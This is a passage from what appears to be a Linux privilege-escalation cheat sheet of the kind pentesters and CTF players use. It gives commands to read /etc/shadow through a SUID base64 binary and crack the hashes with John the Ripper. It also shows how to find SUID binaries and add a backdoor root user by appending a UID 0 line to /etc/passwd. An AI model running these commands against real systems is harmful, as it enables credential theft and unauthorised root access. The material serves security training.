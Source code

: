 <pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>base64 /etc/shadow | base64 --decode #Display content of shadow    
</strong>base64 /etc/passwd | base64 --decode #Display content of passwd
touch shadow.txt #Create on the host machine and copy the content of shadow
touch passwd.txt #Create on the host machine and copy the content of passwd
</code></pre>

***

* Use _John_ to make a crackable file and crack passwords

{% code overflow="wrap" lineNumbers="true" %}
```sh
unshadow passwd.txt shadow.txt > crack.txt
john -w=/usr/share/wordlists/rockyou.txt crack.txt
#If possible to crack, this will display the password of users
```
{% endcode %}

## <mark style="color:orange;">Abusing SUID/SGID permissions on writing binaries</mark>

* Verify executables with special permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/nano
</strong></code></pre>

{% hint style="info" %}
`nano` is used as an example, can be any other executable with the same reading properties, such as `vim`, `nvim`, etc...
{% endhint %}

***

* Abuse privileges to create users with privileges

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>openssl passwd -1 -salt AAA $password    #Create user hash
</strong><strong>nano /etc/passwd
</strong><strong>$username:$hash:0:0:root:/root:/bin/bash #Add this at the final of /etc/passwd
</strong>su $username                             #Switch to the new user
</code></pre>

{% hint style="info" %}
_$username_ is an arbitrary name and the _/root:/bin/bash_ specify we are requesting a root shell
{% endhint %}

## <mark style="color:orange;">Abusing capabilities on binaries</mark>

* Verify executables with set capabilities
